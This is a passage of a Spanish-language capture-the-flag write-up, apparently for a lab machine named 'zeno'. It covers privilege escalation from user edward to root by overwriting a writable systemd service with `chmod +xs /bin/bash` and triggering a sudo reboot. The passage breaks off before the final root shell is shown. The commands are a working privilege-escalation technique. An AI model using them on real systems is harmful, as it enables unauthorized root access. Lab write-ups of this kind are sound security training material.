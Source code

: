***
<h3>PrivEsc. User1 --> Root:</h3>
- Lo primero que hice fue revisar que podíamos ejecutar como `sudo`:

~~~bash
[edward@zeno mnt]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
~~~

- Para escalar privilegios desde el sistema de reinicio, podemos cargar un preload en algún archivo `.service`:
- Buscamos alguno donde tengamos escritura (Aunque linpeas ya nos lo mostró anteriormente):

~~~bash
[edward@zeno mnt]$ find / -writable -name "*.service" 2>/dev/null
/etc/systemd/system/multi-user.target.wants/zeno-monitoring.service
/etc/systemd/system/zeno-monitoring.service
~~~

- Sobrescribimos el archivo `/etc/systemd/system/zeno-monitoring.service`, pues el otro es solo un alias de este mismo:

~~~bash
# /etc/systemd/systm/example.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'chmod +xs /bin/bash'

[Install]
WantedBy=multi-user.target
~~~

- Ejecutamos el binario `reboot` como sudo:

~~~bash
[edward@zeno mnt]$ sudo /usr/sbin/reboot
Connection to 10.10.55.120 closed by remote host.
Connection to 10.10.55.120 closed.
~~~

- Y se nos cerrará la conexión.
- Tendremos que esperar alrededor de 3 minutos para volver a conectarnos por ssh.
- Si todo ha salido bien, tendremos una bash con permisos de SUID:
